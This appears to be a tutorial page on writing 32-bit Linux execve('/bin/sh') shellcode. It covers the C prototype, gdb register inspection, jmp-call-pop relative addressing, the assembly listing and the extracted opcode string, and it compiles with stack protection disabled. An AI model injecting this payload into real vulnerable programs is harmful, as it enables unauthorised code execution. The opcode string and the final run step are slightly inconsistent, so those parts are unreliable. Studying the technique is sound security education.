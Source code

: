 # Spawning a Shell

The easiest and quickest way to create a shell is to create a new process.

There are two ways to do this in Linux:

- Creating a process that will replace the parent process using `execve()`.
- Creating a copy of the parent process using `fork()` and `execve()`.

Here's `./spawnshell.c` of using the former:

```c title="spawnshell.c"
#include <stdio.h>
int main()
{
    char *happy[2];
    happy[0] = "/bin/sh";
    happy[1] = NULL;
    execve(happy[0], happy, NULL);
}
```

To make this injectable, we need to translate it into opcodes. We need to use `-static` flag with `gcc` to prevent dynamic linking.

```bash
gcc -o spawnshell -fno-stack-protector -m32 -ggdb -static spawnshell.c
./spawnshell

$ whoami
kobbi
```

## Review of `execve` System Call

If we look at the signature of the `execve` method using its `man` page, we can see that it expects 3 arguments:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

- The first argument is a pointer to the name/path of the interpreter (`sh` in our case).
- The second argument is a pointer to an array of arguments passed to the interpreter.
- The third is a pointer to an array of environmental variable key-value pairs.

To use this syscall, we need to pass data to 4 registers.

`EAX` will hold the syscall number for `execve` which is decimal 11 or `0x0b` (see [Linux System Call Table](http://faculty.nps.edu/cseagle/assembly/sys_call.html)). The rest of the registers (`EBX`, `ECX`, `EDX`) will hold the arguments.

We can see the assembly instructions here:

```
(gdb) disas execve
Dump of assembler code for function execve:
   0x0806dee0 <+0>:     endbr32 
   0x0806dee4 <+4>:     push   %ebx
   0x0806dee5 <+5>:     mov    0x10(%esp),%edx
   0x0806dee9 <+9>:     mov    0xc(%esp),%ecx
   0x0806deed <+13>:    mov    0x8(%esp),%ebx
=> 0x0806def1 <+17>:    mov    $0xb,%eax
   0x0806def6 <+22>:    call   *%gs:0x10
   0x0806defd <+29>:    pop    %ebx
   0x0806defe <+30>:    cmp    $0xfffff001,%eax
   0x0806df03 <+35>:    jae    0x8073510 <__syscall_error>
   0x0806df09 <+41>:    ret    
End of assembler dump.

(gdb) i r
eax            0xb                 11
ecx            0xffffcc74          -13196
edx            0x0                 0
ebx            0x80b4008           134955016
esp            0xffffcc58          0xffffcc58
ebp            0xffffcc88          0xffffcc88
eip            0x806def6           0x806def6 <execve+22>

(gdb) x/s $ebx
0x80b4008:      "/bin/sh"

```

As expected, we see that:

- `EAX` holds `0xb` which is syscall 11.
- `EBX` holds the first argument to `execve()`, the interpreter path `/bin/sh`.
- `ECX` holds the address to the argument array.
- `EDX` holds the address of `NULL`.

However, since `ECX` and `EDX` hold hardcoded addresses, the shellcode would break if we use them in different systems.

To get around this problem, we use **relative addressing**.

## Relative Addressing

The classical way to use relative addressing involves placing the beginning address of the shellcode into a register.
To do this, we start the shellcode off with a `jmp` instruction to the `call` instruction. When the `call` instruction is executed, the address of the instructions immediately following the `call` instruction is pushed onto the stack. We need to place whatever we want to use as the base relative address directly following the `call` instruction. Since we want our shellcode to be executed, we will have the `call` instruction call the instruction immediately following the initial `jmp`.
The last step is to add the `pop esi` instruction right after the first `jmp` instruction. This will allow us to reference different bytes in our shellcode by using the distance/offset from `esi`.

Here is some pseudo-code to illustrate how it would look:

```
    jmp short   GotoCall

shellcode:
    pop esi
    ...
    <shellcode>
    ...

GotoCall:
    call    shellcode
    db      '/bin/sh' ; define byte sets aside space in memory for a string
```

See the full assembly code `execve.asm`:

```armasm title="execve.asm"
Section .text

 global _start
 
 
_start:
 jmp  GotoCall
 
shellcode:
 pop         esi
 xor         eax, eax            ; set eax to null
 mov byte [esi + 7], al       ; terminate /bin/sh with null, overwriting J
 lea         ebx, [esi]          ; copy address of beginning of /bin/sh to ebx
 mov long [esi + 8], ebx      ; copy address of beginning of /bin/sh over AAAA
 mov long [esi + 12], eax     ; copy nulls over KKKK
 mov byte al, 0x0b            ; copy syscall
 mov         ebx, esi            ; copy address of /bin/sh into ebx
 lea         ecx, [esi + 8]      ; copy pointer to /bin/sh into ecx
 lea         edx, [esi + 12]     ; copy pointer to null into edx
 int         0x80                ; call interrupt
 
GotoCall:
 call shellcode
 db '/bin/shJAAAAKKKK' ; JAAAAKKKK are placeholders used for reference. will be overwritten
```

Compile it using:

```bash
nasm -f elf -o execve.o -g execve.asm
ld -m elf_i386 -s -o execve execve.o
```

We can then get the opcodes:

```bash
objdump -d execve | cut  -f2 | awk "NR > 7" | xargs | sed 's/ /\\x/g'

eb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b
```

Compile and run:

```c title="execve.c"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main(int argc, char *argv[])
{
    char *newargv[] = { NULL, "hello", "world", NULL };
    char *newenviron[] = { NULL };

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <file-to-exec>\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    newargv[0] = argv[1];

    execve(argv[1], newargv, newenviron);
    perror("execve");   /* execve() returns only on error */
    exit(EXIT_FAILURE);
}
```

```bash
gcc -fno-stack-protector -z execstack -o execve_run -ggdb execve.c
./execve
```
